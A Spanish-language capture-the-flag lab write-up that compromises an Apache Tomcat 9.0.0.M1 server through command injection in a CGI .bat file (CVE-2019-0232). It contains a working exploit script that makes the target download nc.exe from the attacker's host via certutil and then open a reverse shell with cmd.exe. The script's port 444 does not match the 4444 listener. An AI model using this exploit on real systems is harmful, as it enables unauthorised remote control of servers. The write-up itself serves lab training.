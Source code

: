 # Laboratorio: Skill Assessment I 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    <img src="./assets/Skill-Assessment-I/01-Ports.PNG">
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
8080/tcp  open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/9.0.0.M1
|_http-server-header: Apache-Coyote/1.1 
|_http-favicon: Apache Tomcat
```
* La aplicación que se está ejecutando es **`Tomcat`**
* El puerto es **`8080`**
* Su versión es **`9.0.0.M1`**

---

3. Ahora `fuzzearemos` por archivos con **`extensión .bat`** en el directorio **`/cgi`**
* `ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://[IP]:8080/cgi/FUZZ.bat`

```
[Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 138ms]
    * FUZZ: cmd
```

---

4. Utilizaremos el siguiente [exploit](https://github.com/jaiguptanick/CVE-2019-0232/tree/main)

---

5. Lo modificamos de la siguiente manera

```python
#!/usr/bin/env python3
import time
import requests
host='[IP Máquina Víctima]'
port='8080'
server_ip='[IP tun0]'#server that has nc.exe file to get reverse shell
server_port='80'
nc_ip='[IP tun0]'
nc_port='444'
url1 = host + ":" + str(port) + "/cgi/cmd.bat?" + "&&C%3a%5cWindows%5cSystem32%5ccertutil+-urlcache+-split+-f+http%3A%2F%2F" + server_ip + ":" + server_port + "%2Fnc%2Eexe+nc.exe"
url2 = host + ":" + str(port) + "/cgi/cmd.bat?&nc.exe+" + server_ip + "+" + nc_port + "+-e+cmd.exe"
try:
    requests.get("http://" + url1)
    time.sleep(2)
    requests.get("http://" + url2)
    print(url2)
except:
    print("Some error occured in the script")

```

* Ahora nos descargamos `nc.exe` y en ese mismo directorio creamos un servidor con **Python** `python3 -m http.server 80`
* Nos ponemos en escucha con **nc** en el puerto **4444** `nc -lvnp 4444`

---

6. Ejecutamos el script y ya tendremos una shell
* `python exploit.py`

---

7. Leemos la **flag** 🏴
```bash
C:\Users\Administrator\Desktop>type flag.txt
f55763d31a8f63ec935abd07aee5d3d0
```